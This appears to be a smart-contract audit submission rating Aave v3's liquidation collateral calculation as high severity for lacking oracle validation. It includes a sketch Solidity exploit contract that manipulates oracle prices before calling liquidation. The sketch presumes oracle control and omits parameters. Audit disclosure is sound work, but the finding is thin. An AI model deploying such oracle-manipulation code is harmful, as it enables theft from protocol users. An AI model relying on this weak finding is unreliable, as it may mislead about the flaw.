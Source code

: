 Suave Pink Condor

High

# Incorrect Collateral to Debt Conversion

### Summary

The _calculateAvailableCollateralToLiquidate function uses calculations based on collateral and debt prices but lacks sufficient validation, leading to potential inaccuracies in liquidation amounts.

### Root Cause

In https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/libraries/logic/LiquidationLogic.sol#L644  the _calculateAvailableCollateralToLiquidate function uses calculations based on collateral and debt prices but lacks sufficient validation, leading to potential inaccuracies in liquidation amounts.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path


Exploit Feasibility: If an attacker can manipulate the price oracle to artificially inflate the collateral price, they can liquidate more collateral than the debt they are repaying as shown below.

contract CollateralToDebtExploit {
    IPriceOracleGetter public priceOracle;
    LiquidationLogic public liquidationLogic;

    constructor(address _priceOracle, address _liquidationLogic) {
        priceOracle = IPriceOracleGetter(_priceOracle);
        liquidationLogic = LiquidationLogic(_liquidationLogic);
    }

    function exploitManipulatedPrices(
        address collateralAsset,
        address debtAsset,
        address user,
        uint256 debtToCover
    ) external {
        // Step 1: Manipulate the price oracle (requires attacker control over oracle)
        priceOracle.setPrice(collateralAsset, 100 ether); // Inflate collateral price
        priceOracle.setPrice(debtAsset, 1 ether);        // Deflate debt price

        // Step 2: Perform a liquidation call with manipulated prices
        LiquidationLogic.ExecuteLiquidationCallParams memory params = LiquidationLogic
            .ExecuteLiquidationCallParams({
                collateralAsset: collateralAsset,
                debtAsset: debtAsset,
                user: user,
                debtToCover: debtToCover,
                reservesCount: 2,
                priceOracle: address(priceOracle),
                userEModeCategory: 0,
                priceOracleSentinel: address(0),
                receiveAToken: false
            });

        liquidationLogic.executeLiquidationCall(
            /* pass required reserves data, users config, and other parameters */
            params
        );

        // Step 3: Attacker receives more collateral than intended.
    }
}


### Impact

If the price oracle provides outdated or manipulated data, the calculated collateral amount could be incorrect, leading to over-collateralization or protocol losses.
The protocol could lose funds or incorrectly liquidate user positions.

### PoC

_No response_

### Mitigation

Add slippage tolerance and price deviation checks for oracle values.
Use time-weighted average price (TWAP) oracles to reduce manipulation risks.